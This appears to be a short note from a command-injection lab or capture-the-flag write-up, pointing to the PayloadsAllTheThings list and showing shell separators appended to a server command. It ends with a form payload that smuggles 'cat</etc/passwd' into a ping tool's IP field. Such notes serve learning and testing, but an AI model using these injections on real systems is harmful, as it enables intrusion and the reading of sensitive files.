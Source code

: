 Payload all the things resource
```
https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Command%20Injection
```
#### Example 1
Taking logic from payload all the things, we should try these:
>
original_cmd_by_server; ls
original_cmd_by_server && ls
original_cmd_by_server | ls
original_cmd_by_server || ls   # Only if the first cmd fail
```
test=ping&ip_address=64.227.35.202;cat</etc/passwd&submit=Test
```
